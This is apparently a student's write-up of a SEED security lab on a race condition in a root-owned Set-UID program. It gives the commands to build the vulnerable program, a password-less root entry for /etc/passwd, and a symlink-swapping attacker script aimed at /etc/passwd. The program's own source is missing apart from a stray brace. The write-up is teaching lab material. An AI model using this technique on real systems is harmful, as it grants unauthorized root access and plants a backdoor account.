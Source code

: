 ```c
}
```

The program above is a root-owned Set-UID program; it appends a string of user input to the end of a temporary file /tmp/XYZ. Since the code runs with the root privilege, i.e., its effective use ID is zero, it can overwrite any file. To prevent itself from accidentally overwriting other people’s file, the program first checks whether the real user ID has the access permission to the file /tmp/XYZ using access()􏰀. If the real user ID indeed has the right, the program opens the file and append the user input to the file.

At first glance the program does not seem to have any problem. However, there is a race condition vul- nerability in this program: due to the time window between the check (access()) and the use (fopen()), there is a possibility that the file used by access() is different from the file used by fopen(), even though they have the same file name /tmp/XYZ. If a malicious attacker can somehow make /tmp/XYZ a symbolic link pointing to a protected file, such as /etc/passwd, inside the time window, the attacker can cause the user input to be appended to /etc/passwd and as a result gain the root privilege. The vulnerable runs with the root privilege, so it can overwrite any file.

Prepare the program:

```bash
gcc -o vuln vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```

### 030 Task 1 Choosing Our Target

```bash
# x means the password is stored in /etc/shadow
root:x:0:0:root:/root:/bin/bash
```

We will add a root user in /etc/passwd with the help of this vulnable SUID program. Interestingly, there is a magic value used in Ubuntu live CD for a password-less account, and the magic value is `U6aMy0wojraho` (the 6th character is zero, not letter O). If we put this value in the password field of a user entry, we only need to hit the return key when prompted for a password.

So let's add one entry to /etc/passwd as below:

```bash
rambo:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

![Screen Shot 2018-11-27 at 4.13.15 PM.png]({{ site.url }}/images/seed/D42B15B1AD2933B982484F2FF9E6B21E.png)

It works. Now we should delete this entry and go to the next task :)

### 031 Task 2 Launching the Race Condition Attack

Firstly we create a regular file `/home/seed/beef` and start attacking:

```bash
#!/bin/bash
# attacker.sh
i=0
while [ 1 ];
do
	i=$(( $i + 1 ))
	ln -sf /home/seed/beef /tmp/XYZ
	ln -sf /etc/passwd /tmp/XYZ
	echo "changed ln for $i times so far."
done
```
